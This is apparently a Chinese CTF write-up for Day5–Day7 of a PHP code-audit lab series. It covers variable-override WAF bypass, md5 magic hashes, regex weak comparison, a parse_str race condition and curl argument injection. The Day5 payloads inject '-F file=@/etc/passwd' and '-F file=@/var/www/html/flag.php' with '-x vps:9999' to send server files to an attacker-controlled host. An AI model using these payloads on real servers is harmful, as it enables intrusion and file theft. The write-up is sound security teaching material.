## 前言

大家好，我们是红日安全-代码审计小组。最近我们小组正在做一个PHP代码审计的项目，供大家学习交流，我们给这个项目起了一个名字叫 [ **PHP-Audit-Labs** ](https://github.com/hongriSec/PHP-Audit-Labs) 。在每篇文章的最后，我们都留了一道CTF题目，供大家练习。下面是 **Day5-Day8** 的题解：

## Day5题解：(By l1nk3r)

题目如下：



这道题主要考察全局变量覆盖，结合 **unset** 函数绕过waf，以及通过 **curl** 读取文件，接下来我们将代码分为两个部分看看吧。

### 第一部分：

我们看到 **第11行-14行** 有这样一串代码：



分析一下这串代码的逻辑：

首先 **第一行** ，循环获取字符串 **GET、POST、COOKIE** ，并依次赋值给变量 **$__R** 。在 **第二行** 中先判断 **\$$__R** 变量是否存在数据，如果存在，则继续判断超全局数组 **GET、POST、COOKIE** 中是否存在键值相等的，如果存在，则删除该变量。这里有个 **可变变量** 的概念需要先理解一下。

> 可变变量指的是：一个变量的变量名可以动态的设置和使用。一个可变变量获取了一个普通变量的值作为其变量名。

举个例子方便理解：



这里使用 **\$$** 将通过 **变量a** 获取到的数据，注册成为一个**新的变量**（这里是 **变量hello** ）。然后会发现变量 **\$$a** 的输出数据和变量 **\$hello**  的输出数据一致（如上图，输出为 **world** ）。

我通过 **GET** 请求向 **index.php** 提交 **flag=test** ，接着通过 **POST** 请求提交 **_GET[flag]=test** 。当开始遍历 **\$_POST** 超全局数组的时候， **$__k** 代表 **_GET[flag]** ，所以 **\$$__k** 就是 **\$_GET[flag]** ，即 **test** 值，此时 **\$$__k** == **\$__v** 成立，变量 **$_GET[flag]** 就被 **unset** 了。但是在 **第21行** 和 **22行** 有这样一串代码：

```php
if($_POST) extract($_POST, EXTR_SKIP);
if($_GET) extract($_GET, EXTR_SKIP);
```

 **extract** 函数的作用是将对象内的键名变成一个变量名，而这个变量对应的值就是这个键名的值， **EXTR_SKIP** 参数表示如果前面存在此变量，不对前面的变量进行覆盖处理。由于我们前面通过 **POST** 请求提交 **_GET[flag]=test** ，所以这里会变成 **$_GET[flag]=test** ，这里的 **$_GET** 变量就不需要再经过 **waf** 函数检测了，也就绕过了 **preg_match('/flag/i',$key)** 的限制。下面举个 **extract** 函数用例：



接着到了24行比较两个变量的md5值，我们构造出2个0e开头的md5即可绕过，这样就进入第二阶段。

### 第二部分

第二阶段主要考察 **curl** 读取文件。这里主要加了两个坑，我们之前说过的两个函数 **escapeshellarg()** 和 **escapeshellcmd()** 一起使用的时候会造成的问题，主要看看这部分代码。



这里的 **第8行** 和 **第9行** 增加了两个过滤。

- **escapeshellarg** ，将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号
- **escapeshellcmd** ，会对以下的字符进行转义&#;`|*?~<>^()[]{}$`, `x0A` 和 `xFF`, `'` 和 `"`仅在不配对儿的时候被转义。


在字符串增加了引号同时会进行转义，那么之前的payload

```
http://127.0.0.1/index1.php?url=http://127.0.0.1 -T /etc/passwd
```

因为增加了 **'** 进行了转义，所以整个字符串会被当成参数。注意 **escapeshellcmd** 的问题是在于如果 **'** 和 **"** 仅在不配对儿的时候被转义。那么如果我们多增加一个 **'** 就可以扰乱之前的转义了。如下：



在 **curl** 中存在 **-F** 提交表单的方法，也可以提交文件。 **-F <key=value>** 向服务器POST表单，例如： **curl -F "web=@index.html;type=text/html" url.com** 。提交文件之后，利用代理的方式进行监听，这样就可以截获到文件了,同时还不受最后的的影响。那么最后的payload为：

```
http://baidu.com/' -F file=@/etc/passwd -x  vps:9999
```



这里应该是和 **curl** 版本有关系，我在 **7.54.0 ** 下没有测试成功。



题目中的 **curl** 版本是 **7.19.7** 



根据猜测，可能在是新版本中，先会执行 **curl http** 的操作，但是由于在后面增加了,例如 **http://127.0.0.1，** 但是curl无法找到这样的文件，出现404。出现404之后，后面的提交文件的操作就不进行了，程序就退出了。这样在vps上面就无法接受到文件了。

### 解题payload：

所以这题最后的 **payload** 是这样的。

```http
POST /index.php?flag=QNKCDZO&hongri=s878926199a&url=http://baidu.com/' -F file=@/var/www/html/flag.php -x  vps:9999 HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=om11lglr53tm1htliteav4uhk4
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

_GET[flag]=QNKCDZO&_GET[hongri]=s878926199a&_GET[url]=http://baidu.com/' -F file=@/var/www/html/flag.php -x  vps:9999
```

## Day6题解：(By 七月火)

题目如下：



这道题目实际上考察的是大家是否熟悉PHP正则表达式的字符类，当然还涉及到一些弱类型比较问题。大家可以先查阅一下PHP手册对这些字符类的定义，具体可点 [这里](http://php.net/manual/zh/regexp.reference.character-classes.php) 。

| *alnum*  | 字母和数字            |
| -------- | ---------------- |
| *alpha*  | 字母               |
| *ascii*  | 0 - 127的ascii字符  |
| *blank*  | 空格和水平制表符         |
| *cntrl*  | 控制字符             |
| *digit*  | 十进制数(same as \d) |
| *graph*  | 打印字符, 不包括空格      |
| *lower*  | 小写字母             |
| *print*  | 打印字符,包含空格        |
| *punct*  | 打印字符, 不包括字母和数字   |
| *space*  | 空白字符 (比\s多垂直制表符) |
| *upper*  | 大写字母             |
| *word*   | 单词字符(same as \w) |
| *xdigit* | 十六进制数字           |

题目中总共有三处正则匹配，我们分别来看一下其对应的含义。第一处的正则 **/^[[:graph:]]{12,}$/** 为：匹配到可打印字符12个以上(包含12)，**^** 号表示必须以某类字符开头，**$** 号表示必须以某类字符结尾。第二处正则表达式：

```php
$reg = '/([[:punct:]]+|[[:digit:]]+|[[:upper:]]+|[[:lower:]]+)/';
if (6 > preg_match_all($reg, $password, $arr))
    break;
```

表示字符串中，把连续的符号、数字、大写、小写，作为一段，至少分六段，例如我们输入 **H0ng+Ri** 则匹配到的子串为 **H   0   ng   +   R   i** 。第三处的正则表达式：

```php
$ps = array('punct', 'digit', 'upper', 'lower');
foreach ($ps as $pt)
{
    if (preg_match("/[[:$pt:]]+/", $password))
    $c += 1;
}
if ($c < 3) break;
```

表示为输入的字符串至少含有符号、数字、大写、小写中的三种类型。然后题目最后将 **$password** 与42进行了弱比较。所以我们的payload为：

```php
password=42.00e+00000
password=420.00000e-1
```

网络上还有一种解法是： **password=\x34\x32\x2E** ，但是这种解法并不可行，大家可以思考一下为什么。



PS：在 [代码审计Day6 - 正则使用不当导致的路径穿越问题](https://xz.aliyun.com/t/2523) 的文章评论下面，我们提及了一个经典的通过正则写配置文件的案例，这个案例具体怎么绕过并写入shell，大家可以参考 [ **这里** ](https://github.com/wonderkun/CTF_web/tree/dcf36cb9ba9a580a4e8d92b43480b6575fed2c3a/web200-7) 。

## Day7题解：(By l1nk3r)

题目如下：





### 解题方法

在 **index.php** 第4行存在 **@parse_str($id);** 这个函数不会检查变量 **\$id** 是否存在，如果通过其他方式传入数据给变量 **\$id** ,且当前 **\$id** 中数据存在，它将会直接覆盖掉。而在第6行有一段这样代码。

```php
if ($a[0] != 'QNKCDZO' && md5($a[0]) == md5('QNKCDZO'))
```

**PHP Hash比较存在缺陷** ，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0。而这里的 **md5(‘QNKCDZO’)** 的结果是 **0e830400451993494058024219903391**  。所以payload为 **?id=a[0]=s878926199a** 。这样就可以在页面上回显。

```html
echo '<a href="uploadsomething.php">flag is here</a>';
```

而这题真正的考察点在这里。在 **uploadsomething.php** 的第三行和第四行有这样两句代码如下：

```php
$referer = $_SERVER['HTTP_REFERER'];
if(isset($referer)!== false)
```

这里有个 **refer** 判断，判断 **refer** 是否存在，如果有展现上传页面，如果没有，就返回 **you can not see this page** 。

据我们所知，通过a标签点击的链接，会自己自动携带上refer字段。然后 **携带refer** 和 **不携带refer** ，返回的结果不一样。

**携带refer** 的情况：



**不携带refer** 的情况：



然后在 **uploadsomething.php** 的第13行和第18行有这样代码如下：

```php
$content = 'HRCTF{y0u_n4ed_f4st}   by:l1nk3r';
file_put_contents("$savepath" . $_GET['filename'], $content);
$msg = 'Flag is here,come on~ ' . $savepath . htmlspecialchars($_GET['filename']) . "";
usleep(100000);
$content = "Too slow!";
file_put_contents("$savepath" . $_GET['filename'], $content);
```

这里有一句关键就是 **usleep(100000);** 这题需要在写入 **too slow** 之前，访问之前写入的文件，即可获得flag，这里就存在时间竞争问题。但是我们看到其实这里的文件夹路径是固定写死的。



直接访问会返回 **too slow** 。



因此这里的解法是，开Burp的200线程，一个不断发包

```
http://127.0.0.1/parse_str/uploadsomething.php?filename=flag&content=111
```

burp发包是在 **intruder** 模块中，首先选择数据包，右键点击选择 **Send to Intruder** 。


然后在 **positions** 点击 **clear** 按钮



在 **payload** 中选择 **payload type** 为 **null payloads** ，**generate** 选择200，然后再可以点击 **start attack** 了。



在 **start attack** 之前需要一个脚本不断请求下面这个链接

```
http://127.0.0.1/parse_str/uploads/4b84b15bff6ee5796152495a230e45e3d7e947d9/flag
```

**脚本代码**：

```python
import requests as r
r1=r.Session()
while (1):
r2=r1.get("http://127.0.0.1/parse_str/uploads/4b84b15bff6ee5796152495a230e45e3d7e947d9/flag")
	print r2.text
	pass
```

一会儿就看到了flag

